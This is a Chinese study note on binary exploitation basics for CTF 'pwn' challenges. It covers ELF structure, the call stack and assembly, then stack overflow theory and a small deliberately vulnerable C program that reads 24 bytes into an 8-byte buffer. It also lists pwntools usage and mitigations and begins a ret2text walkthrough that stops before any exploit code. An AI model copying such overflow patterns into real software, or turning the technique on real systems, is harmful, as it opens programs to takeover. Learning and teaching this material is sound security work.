


# pwn basic

`更新时间：2025-3-26`

注释解释：

- `<>`必填项，必须在当前位置填写相应数据

- `{}`必选项，必须在当前位置选择一个给出的选项

- `[]`可选项，可以选择填写或忽略

*注：该笔记内的可选项和参数均不完整，如有需要，请查询相关手册*

## 二进制基础

### 程序的编译与链接

从C源代码到可执行文件的生成过程
$$
C \ code \ (p1.c \ p2.c) \\
\downarrow compiler: \ gcc \ -S \\
Assembly \ (p1.s \ p2.s) \\
\downarrow assembler: \ gcc \ or \ as \\
Object \ (p1.o \ p2.o) \ | \ Static Library \ (.a) \\
\downarrow \ linker: \ gcc \ or \ ld \\
Execuatble \ (p)
$$

- 编译：由C语言代码生成汇编代码
- 汇编：由汇编代码生成机器码
- 链接：将多个机器码文件链接为一个可执行文件

**编译**

已知C文件`test.c`

```c
#include <stdio.h>

int main() {
    printf("Hello, World!");
    return 0;
}
```

然后执行`gcc -S test.c`就可以得到汇编文件`test.s`

```assembly
	.file	"test.c"
	.text
	.section	.rodata
.LC0:
	.string	"Hello, World!"
	.text
	.globl	main
	.type	main, @function
main:
.LFB0:
	.cfi_startproc
	endbr64
	pushq	%rbp
	.cfi_def_cfa_offset 16
	.cfi_offset 6, -16
	movq	%rsp, %rbp
	.cfi_def_cfa_register 6
	leaq	.LC0(%rip), %rax
	movq	%rax, %rdi
	movl	$0, %eax
	call	printf@PLT
	movl	$0, %eax
	popq	%rbp
	.cfi_def_cfa 7, 8
	ret
	.cfi_endproc
.LFE0:
	.size	main, .-main
	.ident	"GCC: (Ubuntu 14.2.0-4ubuntu2) 14.2.0"
	.section	.note.GNU-stack,"",@progbits
	.section	.note.gnu.property,"a"
	.align 8
	.long	1f - 0f
	.long	4f - 1f
	.long	5
0:
	.string	"GNU"
1:
	.align 8
	.long	0xc0000002
	.long	3f - 2f
2:
	.long	0x3
3:
	.align 8
4:
```

汇编文件`test.s`本身仍然是一个文本文件，并不是机器码文件

> 

**汇编**
使用`gcc test.s`将汇编文件生成机器码，并生成可执行文件`a.out`

> 

查看`a.out`的文件格式

> 

使用`vim`查看`a.out`的HEX代码

`vim`命令行模式输入`:%!xxd`

> 

*恢复则输入`:%!xxd -r`*

### 可执行文件

**什么是可执行文件**

- 广义上来说，文件中的数据是可以执行的代码的文件就是可执行文件，比如`.out`、`.exe`、`.sh`、`.py`
- 狭义上来说，文件中的数据是机器码的文件是可执行文件，如`.out`、`.exe`、`.dll`、`.so`

**常见可执行文件分类**

- Windows：PE (Portable Executable)
  - 可执行程序`.exe`
  - 动态链接库`.dll`
  - 静态链接库`.lib`

- Linux：ELF (Executable and Linkable Format)
  - 可执行程序`.out`
  - 动态链接库`.so`
  - 静态链接库`.a`

### Linux下的可执行文件格式ELF

**ELF文件格式**

- ELF文件头表：记录了ELF文件的组织结构
- 程序头表/段表：告诉系统如何创建进程，生成进程的可执行文件必须拥有此结构，重定位文件不一定需要
- 节头表：记录了ELF文件的节区信息，用于链接的目标文件必须拥有此结构，其他类型目标文件不一定需要

**组成**
$$
ELF \ header \\
Program \ header \ table \\
\left\{
\begin{array}
..text \\
.rodata \\
\end{array}
\right. \\
\left\{
\begin{array}
.... \\
.data \\
\end{array}
\right. \\
Section \ header \ table
$$

#### EFL文件运行

**从磁盘加载到内存**

ELF文件会先从磁盘加载一份ELF镜像到内存中

> 

在磁盘中，拥有相同访问权限的节会在加载镜像时合并为一个段，如图中的`RW`权限节`.data`、`.bss`、`.got.plt`合并为`Data`段，`RX`权限节`.rodata`、`.text`、`.init`、`ELF Header`合并为`Code`段。CPU通过访问权限来确定哪些是数据段，哪些是代码段

**查看ELF文件结构**

使用`objdump -s a.elf`命令查看ELF文件的结构

```elf
a.elf：     文件格式 elf64-x86-64

Contents of section .interp:
 0318 2f6c6962 36342f6c 642d6c69 6e75782d  /lib64/ld-linux-
 0328 7838362d 36342e73 6f2e3200           x86-64.so.2.    
Contents of section .note.gnu.property:
 0338 04000000 20000000 05000000 474e5500  .... .......GNU.
 0348 020000c0 04000000 03000000 00000000  ................
 0358 028000c0 04000000 01000000 00000000  ................
Contents of section .note.gnu.build-id:
 0368 04000000 14000000 03000000 474e5500  ............GNU.
 0378 8111cc48 4e116f2a cd012b3f 5f19c906  ...HN.o*..+?_...
 0388 5af02af6                             Z.*.            
Contents of section .note.package:
 038c 04000000 60000000 7e1afeca 46444f00  ....`...~...FDO.
 039c 7b227479 7065223a 22646562 222c226f  {"type":"deb","o
 03ac 73223a22 7562756e 7475222c 226e616d  s":"ubuntu","nam
 03bc 65223a22 676c6962 63222c22 76657273  e":"glibc","vers
 03cc 696f6e22 3a22322e 34302d31 7562756e  ion":"2.40-1ubun
 03dc 74753322 2c226172 63686974 65637475  tu3","architectu
 03ec 7265223a 22616d64 3634227d 00000000  re":"amd64"}....
Contents of section .note.ABI-tag:
 03fc 04000000 10000000 01000000 474e5500  ............GNU.
 040c 00000000 03000000 02000000 00000000  ................
Contents of section .gnu.hash:
 0420 02000000 06000000 01000000 06000000  ................
 0430 00008100 00000000 06000000 00000000  ................
 0440 d165ce6d                             .e.m            
Contents of section .dynsym:
 0448 00000000 00000000 00000000 00000000  ................
 0458 00000000 00000000 01000000 12000000  ................
 0468 00000000 00000000 00000000 00000000  ................
 0478 4a000000 20000000 00000000 00000000  J... ...........
 0488 00000000 00000000 22000000 12000000  ........".......
 0498 00000000 00000000 00000000 00000000  ................
 04a8 66000000 20000000 00000000 00000000  f... ...........
 04b8 00000000 00000000 75000000 20000000  ........u... ...
 04c8 00000000 00000000 00000000 00000000  ................
 04d8 13000000 22000000 00000000 00000000  ...."...........
 04e8 00000000 00000000                    ........        
Contents of section .dynstr:
 04f0 005f5f6c 6962635f 73746172 745f6d61  .__libc_start_ma
 0500 696e005f 5f637861 5f66696e 616c697a  in.__cxa_finaliz
 0510 65007072 696e7466 006c6962 632e736f  e.printf.libc.so
 0520 2e360047 4c494243 5f322e32 2e350047  .6.GLIBC_2.2.5.G
 0530 4c494243 5f322e33 34005f49 544d5f64  LIBC_2.34._ITM_d
 0540 65726567 69737465 72544d43 6c6f6e65  eregisterTMClone
 0550 5461626c 65005f5f 676d6f6e 5f737461  Table.__gmon_sta
 0560 72745f5f 005f4954 4d5f7265 67697374  rt__._ITM_regist
 0570 6572544d 436c6f6e 65546162 6c6500    erTMCloneTable. 
Contents of section .gnu.version:
 0580 00000200 01000300 01000100 0300      ..............  
Contents of section .gnu.version_r:
 0590 01000200 29000000 10000000 00000000  ....)...........
 05a0 751a6909 00000300 33000000 10000000  u.i.....3.......
 05b0 b4919606 00000200 3f000000 00000000  ........?.......
Contents of section .rela.dyn:
 05c0 b83d0000 00000000 08000000 00000000  .=..............
 05d0 40110000 00000000 c03d0000 00000000  @........=......
 05e0 08000000 00000000 00110000 00000000  ................
 05f0 08400000 00000000 08000000 00000000  .@..............
 0600 08400000 00000000 d83f0000 00000000  .@.......?......
 0610 06000000 01000000 00000000 00000000  ................
 0620 e03f0000 00000000 06000000 02000000  .?..............
 0630 00000000 00000000 e83f0000 00000000  .........?......
 0640 06000000 04000000 00000000 00000000  ................
 0650 f03f0000 00000000 06000000 05000000  .?..............
 0660 00000000 00000000 f83f0000 00000000  .........?......
 0670 06000000 06000000 00000000 00000000  ................
Contents of section .rela.plt:
 0680 d03f0000 00000000 07000000 03000000  .?..............
 0690 00000000 00000000                    ........        
Contents of section .init:
 1000 f30f1efa 4883ec08 488b05d9 2f000048  ....H...H.../..H
 1010 85c07402 ffd04883 c408c3             ..t...H....     
Contents of section .plt:
 1020 ff359a2f 0000ff25 9c2f0000 0f1f4000  .5./...%./....@.
 1030 f30f1efa 68000000 00e9e2ff ffff6690  ....h.........f.
Contents of section .plt.got:
 1040 f30f1efa ff25ae2f 0000660f 1f440000  .....%./..f..D..
Contents of section .plt.sec:
 1050 f30f1efa ff25762f 0000660f 1f440000  .....%v/..f..D..
Contents of section .text:
 1060 f30f1efa 31ed4989 d15e4889 e24883e4  ....1.I..^H..H..
 1070 f0505445 31c031c9 488d3dca 000000ff  .PTE1.1.H.=.....
 1080 15532f00 00f4662e 0f1f8400 00000000  .S/...f.........
 1090 488d3d79 2f000048 8d05722f 00004839  H.=y/..H..r/..H9
 10a0 f8741548 8b05362f 00004885 c07409ff  .t.H..6/..H..t..
 10b0 e00f1f80 00000000 c30f1f80 00000000  ................
 10c0 488d3d49 2f000048 8d35422f 00004829  H.=I/..H.5B/..H)
 10d0 fe4889f0 48c1ee3f 48c1f803 4801c648  .H..H..?H...H..H
 10e0 d1fe7414 488b0505 2f000048 85c07408  ..t.H.../..H..t.
 10f0 ffe0660f 1f440000 c30f1f80 00000000  ..f..D..........
 1100 f30f1efa 803d052f 00000075 2b554883  .....=./...u+UH.
 1110 3de22e00 00004889 e5740c48 8b3de62e  =.....H..t.H.=..
 1120 0000e819 ffffffe8 64ffffff c605dd2e  ........d.......
 1130 0000015d c30f1f00 c30f1f80 00000000  ...]............
 1140 f30f1efa e977ffff fff30f1e fa554889  .....w.......UH.
 1150 e5488d05 ac0e0000 4889c7b8 00000000  .H......H.......
 1160 e8ebfeff ffb80000 00005dc3           ..........].    
Contents of section .fini:
 116c f30f1efa 4883ec08 4883c408 c3        ....H...H....   
Contents of section .rodata:
 2000 01000200 48656c6c 6f2c2057 6f726c64  ....Hello, World
 2010 2100                                 !.              
Contents of section .eh_frame_hdr:
 2014 011b033b 30000000 05000000 0cf0ffff  ...;0...........
 2024 64000000 2cf0ffff 8c000000 3cf0ffff  d...,.......<...
 2034 a4000000 4cf0ffff 4c000000 35f1ffff  ....L...L...5...
 2044 bc000000                             ....            
Contents of section .eh_frame:
 2048 14000000 00000000 017a5200 01781001  .........zR..x..
 2058 1b0c0708 90010000 14000000 1c000000  ................
 2068 f8efffff 26000000 00440710 00000000  ....&....D......
 2078 24000000 34000000 a0efffff 20000000  $...4....... ...
 2088 000e1046 0e184a0f 0b770880 003f1a39  ...F..J..w...?.9
 2098 2a332422 00000000 14000000 5c000000  *3$"........\...
 20a8 98efffff 10000000 00000000 00000000  ................
 20b8 14000000 74000000 90efffff 10000000  ....t...........
 20c8 00000000 00000000 1c000000 8c000000  ................
 20d8 71f0ffff 23000000 00450e10 8602430d  q...#....E....C.
 20e8 065a0c07 08000000 00000000           .Z..........    
Contents of section .init_array:
 3db8 40110000 00000000                    @.......        
Contents of section .fini_array:
 3dc0 00110000 00000000                    ........        
Contents of section .dynamic:
 3dc8 01000000 00000000 29000000 00000000  ........).......
 3dd8 0c000000 00000000 00100000 00000000  ................
 3de8 0d000000 00000000 6c110000 00000000  ........l.......
 3df8 19000000 00000000 b83d0000 00000000  .........=......
 3e08 1b000000 00000000 08000000 00000000  ................
 3e18 1a000000 00000000 c03d0000 00000000  .........=......
 3e28 1c000000 00000000 08000000 00000000  ................
 3e38 f5feff6f 00000000 20040000 00000000  ...o.... .......
 3e48 05000000 00000000 f0040000 00000000  ................
 3e58 06000000 00000000 48040000 00000000  ........H.......
 3e68 0a000000 00000000 8f000000 00000000  ................
 3e78 0b000000 00000000 18000000 00000000  ................
 3e88 15000000 00000000 00000000 00000000  ................
 3e98 03000000 00000000 b83f0000 00000000  .........?......
 3ea8 02000000 00000000 18000000 00000000  ................
 3eb8 14000000 00000000 07000000 00000000  ................
 3ec8 17000000 00000000 80060000 00000000  ................
 3ed8 07000000 00000000 c0050000 00000000  ................
 3ee8 08000000 00000000 c0000000 00000000  ................
 3ef8 09000000 00000000 18000000 00000000  ................
 3f08 1e000000 00000000 08000000 00000000  ................
 3f18 fbffff6f 00000000 01000008 00000000  ...o............
 3f28 feffff6f 00000000 90050000 00000000  ...o............
 3f38 ffffff6f 00000000 01000000 00000000  ...o............
 3f48 f0ffff6f 00000000 80050000 00000000  ...o............
 3f58 f9ffff6f 00000000 03000000 00000000  ...o............
 3f68 00000000 00000000 00000000 00000000  ................
 3f78 00000000 00000000 00000000 00000000  ................
 3f88 00000000 00000000 00000000 00000000  ................
 3f98 00000000 00000000 00000000 00000000  ................
 3fa8 00000000 00000000 00000000 00000000  ................
Contents of section .got:
 3fb8 c83d0000 00000000 00000000 00000000  .=..............
 3fc8 00000000 00000000 30100000 00000000  ........0.......
 3fd8 00000000 00000000 00000000 00000000  ................
 3fe8 00000000 00000000 00000000 00000000  ................
 3ff8 00000000 00000000                    ........        
Contents of section .data:
 4000 00000000 00000000 08400000 00000000  .........@......
Contents of section .comment:
 0000 4743433a 20285562 756e7475 2031342e  GCC: (Ubuntu 14.
 0010 322e302d 34756275 6e747532 29203134  2.0-4ubuntu2) 14
 0020 2e322e30 00                          .2.0.     
```

**查看内存中进程结构**

使用`gdb a.elf`进入pwngdb

使用`b main`在`main()`函数处断点

使用`r`运行`a.elf`

使用`vmmap`查看进程内存空间结构

> 

其中`STACK`为栈，`HEAP`为堆，`CODE`为代码段，`DATA`为数据段

### 虚拟内存

系统从磁盘加载ELF文件到内存时，不会直接添加到真实内存地址，因为如果进程能够直接访问物理内存地址，就可以对内存中的其他进程进行访问和修改数据，对操作系统造成威胁，所以在当前的计算机系统中，所有的进程都在虚拟内存（地址）中运行。当ELF文件被加载到内存镜像时，进程获取的是操作系统给予的虚拟内存空间，一般小于物理内存

> 

如图，假设该计算机物理内存空间为4GByte，那么系统会预留1GByte的空间作为系统进程的使用空间，然后为每个用户进程分配3GByte的虚拟内存空间。一般用户进程不会占用所有的虚拟内存，所以在物理内存中，只会为虚拟内存中实际占用的部分分配物理内存空间

**进程虚拟内存地址空间**

现代计算机的虚拟内存地址编码一般是以16进制表示，如`0X3C = 0011 1100`

### 段与节

**段 Segment**

在操作系统和计算机体系结构中，内存分段是一种内存管理技术，它将程序的虚拟地址空间划分为若干个称为“段”的逻辑单元。每个段都有自己的起点地址和长度，并且可以独立地进行分配、保护和共享

- 代码段（Text Segment）：存放程序的机器指令
  - `.text`节
  - `.rodata`节
  - `.hash`节
  - `.dynsym`节
  - `dynstr`节
  - `.pit`节
  - `.rel.got`节
  - `......`

- 数据段（Data Segment）：存放全局变量和其他静态分配的数据
  - `.data`节
  - `.dynamic`节
  - `.got`节
  - `.got.plt`节
  - `.bss`节
  - `......`

- 堆段（Heap Segment）：用于动态内存分配，如C语言中的`malloc`或C++中的`new`

- 栈段（Stack Segment）：用于存储局部变量、函数参数、返回地址等

**节 Section**

每个节通常包含特定类型的数据或代码，并且有不同的属性（如是否可读、可写、可执行）。常见的节包括：

- `.text`：存放程序的机器指令
- `.rodata`：存放只读数据，如字符串常量等
- `.plt`：解析动态链接函数的实际地址
- `.data`：存放已初始化的全局变量和静态变量
- `.got.plt`：保存`.plt`节中解析到的实际地址
- `.bss`：存放未初始化的全局变量和静态变量

这些节最终由链接器组合成一个完整的可执行文件或库文件

一个段包含多个节，段视图用于进程的内存区域的rwx权限划分，节视图用于ELF文件编译链接时在磁盘上存储时的文件结构组织

### 程序数据在内存中的组织

已知C代码：

```c
int glb;
char* str = "Hello, World!";

int sum(int x, int y) {
    int t = x * y;
    return t;
}

int main() {
    sum(1, 2);
    void* ptr = malloc(0x100);
    read(0, ptr, 0x100);	// input "deadbeef"
    return 0;
}
```

- `malloc(int capacity)`：动态申请内存空间

- `read(int fd, void *buffer, int size)`：在标准输入中读取输入，并放入`buffer`缓冲区中，最大输入量为`size`字节

在内存中：

| 区域             | 存储数据                            |
| ---------------- | ----------------------------------- |
| Kernel           |                                     |
| Stack            | `t`、`ptr`                          |
| shared libraries |                                     |
| Heap             | `"deadbeef"`                        |
| Bss              | `glb`                               |
| Data             | `str`                               |
| Text             | `main()`、`sum()`、`"Hello, World"` |
| Unused           |                                     |

### 大端序与小端序

在计算机中，每个数值的存放都是一块连续的内存地址，此时，就需要考虑连续内存地址的分配。小端序指将数据低位存放在内存低位，大端序指将数据低位存放在内存高位

- 小端序

已知数据`0x12345678`

| 内存地址 | 数据 |
| -------- | ---- |
| 0        | 0x78 |
| 1        | 0x56 |
| 2        | 0x34 |
| 3        | 0x12 |

- 大端序

已知数据`0x12345678`

| 内存地址 | 数据 |
| -------- | ---- |
| 0        | 0x12 |
| 1        | 0x34 |
| 2        | 0x56 |
| 3        | 0x78 |

### 进程的执行过程

一台计算机的核心部件一般只需要CPU和内存即可。CPU从地址总线访问内存中的某块内存空间，内存通过数据总线返回内存空间中的数据，CPU再通过控制总线从内存中获得相关指令。在CPU中，使用寄存器来暂时保留从内存中获取到的数据，并保留计算后的结果

#### AMD64寄存器结构

- `rax`：8Bytes
- `eax`：4Bytes
- `ax`：2Bytes
- `ah`：1Byte
- `al`：1Byte

#### 部分寄存器的功能

- `RIP`：存放当前执行的指令的地址，32位为`EIP`
- `RSP`：存放当前栈帧的栈顶的地址，32位为`ESP`
- `RBP`：存放当前栈帧的栈底的地址，32位为`EBP`
- `RAX`：通用寄存器，存放函数返回值

#### 静态链接程序的执行过程

$$
$ \ ./binary \ (ELF文件) \\
\downarrow \\
fork() \ (拷贝当前shell虚拟内存空间) \\ 
\downarrow \\
execve("./binary", \ *argv[], \ *envp[]) \ (动态链接库) \\
\downarrow \ kernel \ mode \\
system\_execve() \\
\downarrow \\
do\_execve() \\
\downarrow \\
search\_binary\_handler() \\
\downarrow \\
load\_elf\_binary() \\
\downarrow \ user \ mode \\
\_start \ (程序入口)\\
\downarrow \\
main() \ (主函数)
$$

#### 动态链接程序的执行过程

$$
$ \ ./binary \ (ELF文件) \\
\downarrow \\
fork() \ (拷贝当前shell虚拟内存空间) \\ 
\downarrow \\
execve("./binary", \ *argv[], \ *envp[]) \ (动态链接库) \\
\downarrow \ kernel \ mode \\
system\_execve() \\
\downarrow \\
do\_execve() \\
\downarrow \\
search\_binary\_handler() \\
\downarrow \\
load\_elf\_binary() \\
\downarrow \ user \ mode \\
ld.so \ (第三方库管理) \\
\downarrow \\
\_start \ (程序入口) \\
\downarrow \\
\_\_libc\_start\_main() \\
\downarrow \\
\_init() \\
\downarrow \\
main() \ (主函数)
$$

### 汇编简述

**常用汇编指令**

- `MOV`

  `MOV <SRC>, <DEST>`

  赋值指令，相当于`C`中的`=`，将`<SRC>`数据传递给`<DEST>`，`<SRC>`可以是值，也可以是内存地址，当使用内存地址时，需要使用`[]`，如`MOV EAX, [00404011H]`

- `LEA`
  `LEA <REG>, <SRC>`
  取地址指令，相当于`C`中的`*`，将`<SRC>`的地址传递给`<REG>`

- `ADD / SUB`

- `PUSH`
  `PUSH <VALUE>`
  将`<VALUE>`压入栈，同时使`SP`指针-1字长

- `POP`
  `POP <DEST>`
  将栈顶的数据弹出栈，存放至`DEST`，同时使`SP`指针+1字长

- `CMP`

- `JMP`

- `J[Condition]`

- `CALL`

- `LEAVE`
  在函数返回时，恢复父栈帧的指令。在栈中，每个函数占用一个栈帧，进入子函数时，即进入子函数的栈帧，当子函数调用结束，返回调用函数时，就需要返回调用函数的栈帧
  等效于：
  `MOV ESP, EBP`
  `POP EBP`

- `RET`
  `LEAVE`返回调用函数栈帧后，控制程序执行流依然还在子函数，因此需要`RET`将控制程序执行流返回父函数
  等效于：
  `POP RIP` *注意：RIP本身不能被传递数据，此处仅作演示*

### C语言函数调用栈

函数调用栈是指程序运行时内存一段连续的区域，用来保存函数运行时的状态信息，包括函数参数与局部变量等。称为`栈`是因为发生函数调用时，调用函数`caller`的状态被保存在栈内，被调用函数`callee`的状态被压入调用栈的栈顶。在函数调用结束时，栈顶的函数`callee`状态被弹出，栈顶恢复到调用函数`caller`的状态。函数调用栈在内存中从高地址向低地址生长，所以栈顶对应的内存地址在压栈时变小，退栈时变大

> 

#### 栈帧结构

栈帧是指在程序执行过程中，每当调用一个函数时在调用栈上创建的一个数据结构。每个栈帧包含了函数调用所需的所有信息

下图中，`EBP`到`ESP`之间为子函数栈帧

> 

- `previous stack frame pointer`：爷函数栈帧的栈底指针
- `arguments`：参数
- `return address`：返回地址，当函数完成执行后，程序应该继续执行的指令地址，即父函数的下一条指令地址
- `stack frame pointer`：父函数栈帧的栈底指针
- `callee saved registers`：子函数临时存储空间
- `local variables`：子函数局部变量

#### 函数调用栈的工作过程

函数的状态主要涉及三个寄存器，`ESP`、`EBP`和`EIP`。`ESP`用来存储函数调用栈的栈顶地址，在压栈和退栈时发生变化；`EBP`用来存储函数调用栈的栈底地址，即基地址，在函数运行时不变，可以用来索引确定函数参数或局部变量的位置；`EIP`用来存储即将执行的程序指令的地址，CPU通过`EIP`存储的内容读取指令并执行，`EIP`随之指向相邻的下一个指令，如此反复，程序就可以连续执行指令

**将被调用函数的参数按照逆序依次压入栈**

> 

**将被调用函数的返回地址压入栈**

> 

**将调用函数的栈帧栈底地址压入栈，并将EBP更新为当前栈顶地址**

> 

**将被调用函数局部变量压入栈**

> 

在压栈的过程中，`ESP`寄存器的值不断缩小（对应栈从内存高地址向低地址生长），压入栈内的数据包括调用参数、返回地址、调用函数的基地址，以及局部变量。其中调用参数以外的数据共同构成了被调函数的状态，即栈帧。在发生函数调用时，程序还会将被调函数的指令地址存储到`EIP`寄存器中，这样程序就可以依次执行被调用函数的指令

在栈调用结束后，变化的核心就是丢弃被调用函数的状态，并将栈顶恢复为调用函数的状态

**将调用函数的基地址弹出栈外，并储存到EBP寄存器中**

> 

**将被调用函数的返回地址弹出栈，并使用EIP寄存器储存**

> 

#### 演示

构建C语言代码

```c
int callee(int a, int b, int c) {
    return a + b + c;
}

int caller(void) {
    int ret;
    ret = callee(1, 2, 3);
    ret += 4;
    return ret;
}
```

编译为汇编代码

```assembly
000000012 <caller>:
  12:   55                      push   %ebp
  13:   89 e5                   mov    %esp,%ebp
  15:   83 ec 10                sub    $0x10,%esp
  18:   6a 03                   push   $0x3
  1a:   6a 02                   push   $0x2
  1c:   6a 01                   push   $0x1
  1e:   e8 fc ff ff ff          call   1f <caller+0xd>
  23:   83 c4 0c                add    $0xc,%esp
  26:   89 45 fc                mov    %eax,-0x4(%ebp)
  29:   83 45 fc 04             addl   $0x4,-0x4(%ebp)
  2d:   8b 45 fc                mov    -0x4(%ebp),%eax
  30:   c9                      leave
  31:   c3                      ret
000000000 <callee>:
  0:    55                      push   %ebp
  1:    89 e5                   mov    %esp,%ebp
  3:    8b 55 08                mov    0x8(%ebp),%edx
  6:    8b 45 0c                mov    0xc(%ebp),%eax
  9:    01 c2                   add    %edx,%eax
  b:    8b 45 10                mov    0x10(%ebp),%edx
  e:    01 d0                   add    %edx,%eax
  10:   5d                      pop    %ebp
  11:   c3                      ret
```

- **caller**

1. `push %ebp`：压入调用函数的函数状态

   >  

2. `mov %esp,%ebp`：将`ESP`抬高到`EBP`

   > 

3. `sub $0x10,%esp`：开辟内存空间，大小为`ESP`下面16个字节长度，即`int ret`声明变量

   > 

4. `push $0x3`、`push $0x2`、`push $0x1`：将被调函数的参数逆序压入栈

   > 

5. `call 1f <caller+0xd>`：将返回地址压入栈，然后将`EIP`设置为被调函数

   > 

- **callee**

6. `push %ebp`：压入调用函数的函数状态

   > 

7. `mov %esp,%ebp`：将`ESP`抬高到`EBP`

   > 

8. `mov 0x8(%ebp),%edx`：将`EBP`+8位置的值，即第一个参数存储到`EDX`寄存器中

9. `mov 0xc(%ebp),%eax`：将第二个参数存储到`EAX`寄存器中

10. `add %edx,%eax`：将两个寄存器的值相加，并储存到`EAX`寄存器中

11. `mov 0x10(%ebp),%edx`：将第三个参数存储到`EDX`寄存器中

12. `add %edx,%eax`：将两个寄存器的值相加，并储存到`EAX`寄存器中

13. ` pop %ebp`：弹出栈顶的值，即父函数的`EBP`，存储到`EBP`寄存器中，使函数状态回到父函数

    > 

14. `ret`：弹出栈顶的值，存入`EIP`，使程序控制流返回父函数

    > 

- **caller**

15. `add $0xc,%esp`：将`ESP`抬高12个地址，释放被调用函数参数的内存空间

    > 

16. `mov %eax,-0x4(%ebp)`：将`EAX`寄存器中的值储存在`EBP`下方4个内存地址的空间

    > 

17. `addl $0x4,-0x4(%ebp)`：将`EBP`下方4个内存地址空间中的值加上4

    > 

18. `mov -0x4(%ebp),%eax`：将`EBP`下方4个内存地址空间中的值传递给`EAX`寄存器

19. `leave`：恢复爷函数的栈帧

20. `ret`：将程序控制流返回爷函数

## 缓冲区溢出

根据上文可知，当函数正在执行内部指令的过程中我们无法拿到程序的控制权，只有发生函数调用或者结束函数调用的时候，程序的控制权会在函数状态之间发生跳转，这时才可以通过修改函数状态来实现攻击。而控制程序执行指令最关键的寄存器就是`EIP`，所以我们的目标就是让`EIP`载入攻击指令的地址

如果要让`EIP`指向攻击指令，首先，在退栈过程中，返回地址会被传给`EIP`，所以我们只需要让溢出数据用攻击指令的地址来覆盖返回地址就行了。其次，我们可以在溢出数据内包含一段攻击指令，也可以在内存其他位置寻找可用的攻击指令

缓冲区溢出的本质是向定长的缓冲区中写入了超长的数据，造成超长的数据覆写了合法内存区域

- 栈溢出
  - 最常见，漏洞比例最高，危害最大的二进制漏洞
  - 在CTF PWN中往往是漏洞利用的基础

- 堆溢出
  - 现实中的漏洞占比不高
  - 堆管理复杂，利用花样繁多
  - CTF PWN中的常见题型
- BSS溢出
  - 现实中与CTF比赛都不常见
  - 攻击效果依赖于BSS上存放了何种控制数据

### 演示

向8字节缓冲区中写入超过8字节的数据

```c
#include <stdio.h>
#include <unistd.h>

int main() {
    // 定义8字节缓冲区
    char str[8];
    // 向缓冲区内写入数据，最大长度24字节
    read(0, str, 24);
    
    return 0;
}
```

>  

> 


### 常用工具

- **IDA Pro**

反编译软件，可以将机器码反编译为汇编代码，同时可以将汇编代码转换为C语言代码

简单的逆向工程是pwn的基础，只有先通过代码分析查找程序可能存在的漏洞，才能进行后续步骤

- **pwntools**

基于python的pwn攻击脚本库

**常用方法**

| 方法名             | 参数类型 | 返回值类型 | 方法意义                                         |
| ------------------ | -------- | ---------- | ------------------------------------------------ |
| process            | str      | object     | 连接本地的程序，并挂载到本地端口，返回程序控制流 |
| remote             | str      | object     | 连接到远程端口，返回程序控制流                   |
| Object.recv        | None     | bytes      | 接收程序发送的信息                               |
| Object.recvline    | None     | bytes      | 接收一条程序发送的信息                           |
| Object.send        | byte     | None       | 发送字节流到程序                                 |
| Object.sendline    | byte     | None       | 发送一条字节流到程序                             |
| Object.interactive | None     | None       | 切换到交互模式，即getshell                       |
| p32                | int      | bytes      | 将整型转换为32位byte                             |
| p64                | int      | bytes      | 将整型转换为64位byte                             |

- **pwndbg**

动态调试工具
**常用指令**

| 指令       | 参数               | 意义                       |
| ---------- | ------------------ | -------------------------- |
| run / r    | N/A                | 运行程序                   |
| break / b  | address / function | 在指定地址或函数处断点     |
| next / n   | N/A                | 步过当前语句               |
| stepin / s | N/A                | 步进当前语句               |
| stack      | length             | 查看当前栈中指定长度的内容 |

- **checksec**

检查程序启用的保护措施

**NX `the no-execute bits`**

栈不可执行，编译时生效，通过在内存页的标识中添加“执行”位，可以表示该内存页是否可以执行，若程序代码的`eip`执行至不可运行的内存页，则cpu将直接拒绝执行“指令”，造成程序崩溃

**ASLR `address space layout randomization`**

地址空间布局随机化，通过随机化程序和库的内存地址，ASLR 增加了攻击者猜测或预测内存位置的难度，从而防止了一些常见的攻击方式。ASLR 的核心原理是当程序或库加载到内存中时，其地址空间不会是固定的，而是会随机变化。这意味着每次程序启动时，它的代码段、堆、栈等内存区域的地址都不同，从而大大提高了攻击者利用内存漏洞进行攻击的难度

**PIE `position-independent executable`**

地址无关可执行文件，该技术是一个针对代码段`.text`、数据段`.data`、未初始化全局变量段`.bss`等固定地址的一个防护技术，如果程序开启了PIE保护的话，在每次加载程序时都变换加载地址

**Canary**

`Canary`栈溢出保护是一种常见的安全机制，用于防止栈溢出攻击。其核心思想是在栈的关键位置插入一个随机值`canary`，并在函数返回前检查该值是否被篡改

- **ROPgadget**
- **one_gadget**

### ret2text

#### 攻击流程

*此处使用`NewStarCTF公开赛`的`ret2text`文件*

1. 使用`checksec`检查文件安全性

   > 

   上图中可以看到文件安全性较低

2. 使用`IDA Pro`寻找溢出点

   > 

   `buf`缓冲区仅有32字节，而`read()`函数能写入256字节，因此存在栈溢出漏洞

3. 寻找后门

   > 

   在`backdoor()`函数中可以直接`getshell`

